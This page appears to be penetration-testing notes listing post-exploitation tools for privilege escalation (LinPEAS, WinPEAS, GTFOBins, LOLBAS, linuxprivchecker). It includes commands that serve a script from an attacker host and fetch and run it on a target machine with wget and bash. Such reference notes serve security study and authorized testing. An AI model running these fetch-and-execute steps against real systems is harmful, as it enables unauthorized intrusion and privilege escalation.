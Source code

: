 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tools and Utilities

Here we can find some tools and utilities commonly used for practices related to post-exploitation:

## <mark style="color:green;">LinPEAS</mark>

* Script that searches for possible paths to escalate privileges on _Linux_/_Unix\*_/_MacOS_ hosts
* [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### <mark style="color:yellow;">Commands</mark>

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install peass
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
linpeas
python3 -m http.server $port #Create server to send file

#Target machine
cd /tmp
wget http://$hostIP:$port/linpeas.sh
bash linpeas.sh
```
{% endcode %}

## <mark style="color:green;">WinPEAS</mark>

* Script that searches for possible paths to escalate privileges on _Windows_ hosts
* [https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

### <mark style="color:yellow;">Commands</mark>

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
python3 -m http.server $port #Create server to send file

#Target machine
wget http://$hostIP:$port/winPEASx64.exe
.\winPEASx64.exe
```
{% endcode %}

## <mark style="color:green;">GTFOBins</mark>

* List of _Unix_ binaries used to bypass local security restrictions in misconfigured systems
* [https://gtfobins.github.io/](https://gtfobins.github.io/)

## <mark style="color:green;">LOLBAS</mark>

* Contains scripts, binaries, and libraries for developing a Living Off the Land attack on Windows
* [https://lolbas-project.github.io/](https://lolbas-project.github.io/)

## <mark style="color:green;">linuxprivchecker</mark>

* Enumerate basic system info and search for common privilege escalation vectors on _Linux_ systems
* [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
